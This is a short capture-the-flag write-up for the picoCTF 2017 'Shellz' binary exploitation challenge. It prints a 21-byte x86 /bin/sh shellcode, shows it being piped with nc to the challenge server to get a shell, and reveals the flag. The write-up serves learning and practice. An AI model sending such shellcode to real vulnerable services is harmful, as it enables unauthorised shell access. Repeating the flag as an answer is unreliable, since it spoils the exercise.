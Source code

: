 # picoCTF 2017: Shellz

**Level:** 2 **Category:** BINARY EXPLOITATION **Point:** 55 

**Description:**

>You no longer have an easy thing to call, but you have more space. Program: [shellz](https://github.com/nxe4ctf/ctfwriteup/blob/master/picoCTF_2017/Level_2/BINARY_EXPLOITATION/Shellz/shellz)! [Source](https://github.com/nxe4ctf/ctfwriteup/raw/master/picoCTF_2017/Level_2/BINARY_EXPLOITATION/Shellz/shellz.c). Connect on shell2017.picoctf.com:23459.

**Hint:**

>There is a bunch of preexisting shellcode already out there!

## Write-up

At the piazza, the `Useful Resources` pinned note has a hint of this challenge:

``` 
(The shellz author really likes this one: http://shell-storm.org/shellcode/files/shellcode-841.php)
```

So using this shellcode to get the flag.

```
# python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')" > payload
# cat payload - | nc shell2017.picoctf.com 23459
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 40 bytes:
ls
flag.txt
shellz
shellz_no_aslr
xinetd_wrapper.sh
cat flag.txt
5b5ba2c3b5558ec86315fd52b0c55a87
```

So the flag is `5b5ba2c3b5558ec86315fd52b0c55a87`.

